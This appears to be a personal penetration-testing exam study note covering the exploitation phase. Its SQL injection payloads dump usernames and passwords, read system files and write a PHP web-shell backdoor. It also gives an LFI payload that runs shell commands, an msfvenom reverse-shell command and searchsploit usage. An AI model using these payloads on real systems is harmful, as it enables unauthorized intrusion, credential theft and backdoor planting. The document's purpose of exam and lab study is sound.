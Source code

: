 Now that you've gathered a lot of information, now comes time for the exploitation...The big stuf
## SQLi Exploitation
If you find places where you can input data into a site, you can attempt to bork it with SQL escape characters

Try putting a `'` in there and seeing if it spits out an error.  If you get an SQL error, you know you can do some SQLi.  This might also help you enumerate what type of DB the system is running.

Sample SQLi things to try:
`'`
`' OR 1=1; -- -`
`' OR 1=1 LIMIT 1; -- -`
`'UNION SELECT * FROM users WHERE 1=1; -- -`

You can enumerate database info using SQLI (normally you'd use `sqlmap` for this after locating an SQLi point, but c'est la vie...

Once you have found an SQLi point, you can figure out how many columns are in a table by doing the following: 
`[valid sql input] order by 1`
`[valid sql input] order by 2`
etc. until it errors out (Consider *Burp Repeater* for this)

`[Valid SQL Input] UNION ALL SELECT 1, 2, 3` (Note: number depends on number of columns determined in previous step)
Once you determine how many columns are available, you can form a union statement to chain a second query and see how data is displayed.

Then you can determine which column has the most space, making room for more fun commands/exploits (Commands below are based on **MariaDB**, others might be different:
`UNION ALL SELECT 1, 2, @@version`
`UNION ALL SELECT 1, 2, user ()`

You can view info about the DB's overall structure by checking out the information_schema:
`UNION ALL SELECT 1, 2, table_name FROM information_schema.tables`

And then you can enumerate even more info from specific tables:
`UNION ALL SELECT 1, 2. column_name FROM information_schema.columns WHERE table_name='users'`

Once you look through the columns on your interesting table, you can then reveal those columns too.
`UNION ALL SELECT 1, username, password FROM users`

You might be able to use the load_file function to execute code on the system as well:
`UNION ALL SELECT 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')` 

Even crazier, you might be able to use the `into OUTFILE` to write code, and insert it into the system
`UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
- This might present an error, but you could test it with the previous command and see if the file was created.
- OR you can just run it by trying `[URL]/backdoor.php?cmd=[command to use]`
## LFI and RFI Exploitation
Check for Directory Traversals, LFI and RFI on php pages.
- Consider inserting php code into log files and then running LFI exploits to run code.

SAMPLE LFI PHP WRAPPER PAYLOAD:
`http://[IP]/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`

You know what directory traversal is

RFI means you are hosting the malicious payload (probably using the python simple web server).

### Shellshock

## Buffer Overflow
THIS WILL BE ON THE EXAM, WORTH 25 POINTS! DO THIS ONE FIRST.
NO LONGER RELEVANT

Reference Google Drive scripts:
`[REDACTED]`

In dummy terms;
Send a buncha stuff to the computer to overflow the stack, and overwrite the EIP to point to malicious code.

look out for `strcopy` in `C`.

**Immunity Debugger** is your friend

Make sure to check for `badchars`, and test on a windows machine.
`EXITFUNC=Thread` is a great option to set in your payload.  It'll prevent the entire program from crashing when you exit the shell, only the affected thread will crash.

The manual makes mention of noting shellcode sizes.  This was not an issue on eCPPT, but something we need to learn more about when we start doing the THM BOF room!
## Generating Shellcode
`msfvenom` is your friend. (msfvenom is in [Kali Linux Tools](https://www.kali.org/tools/msfpc/))

`msfvenom -p [payload] LHOST=[IP] LPORT=[PORT] EXITFUNC=THREAD -f [FORMAT] -a [ARCH] --platform [PLATFORM] -e [encoder] > [SHELLCODEFILENAME]`


`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.192 LPORT=6969 -f exe > shell-x64.exe`

- Try using common service ports if things don't quite work initially.  443, 80, etc.

[Infinite Logins' MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
## Public Exploits
[Exploit DB](https://www.exploit-db.com/) is a good source (`exploitdb` is included in [Kali Linux Tools](https://www.kali.org/tools/exploitdb/#exploitdb))
- [Twitter](https://twitter.com/exploitdb) and [RSS feeds](https://www.exploit-db.com/rss.xml) for new stuff

[Security Focus Archives](https://web.archive.org/web/20240000000000*/www.securityfocus.com) is also good 

[Packet Storm](https://packetstormsecurity.com/) is another site...

`searchsploit` is your best command line tool for searching for public exploits. (Also included in [Kali Linux Tools](https://www.kali.org/tools/exploitdb/#searchsploit))
`searchsploit [searchterm]`
`searchsploit -x [file to read]` (opens in vim)

You can copy an exploit file to your pwd:
`searchsploit -m [filename]`

Exploits for `searchsploit` are found in `/usr/share/exploitdb/exploits/`

**WHEN USING PUBLIC EXPLOITS, YOU'LL PROBABLY HAVE TO MESS WITH THEM A BIT**

Useful info:
`SEC_UNKNOWN_ISSUER` error can be bypassed with the `verify=False` param in Python
### Additional Forums
(Also see [SecLists.org](https://seclists.org/) for [Bugtraq archives](https://seclists.org/bugtraq/) and other, current forums/lists like [Full Disclosure](https://seclists.org/fulldisclosure/). *Added to Obsidian version*)
## Weird Metasploit 6 Commands Might Be Useful
- `set SMB::AlwaysEncrypt false`
- `set SMB::ProtocolVersion 1`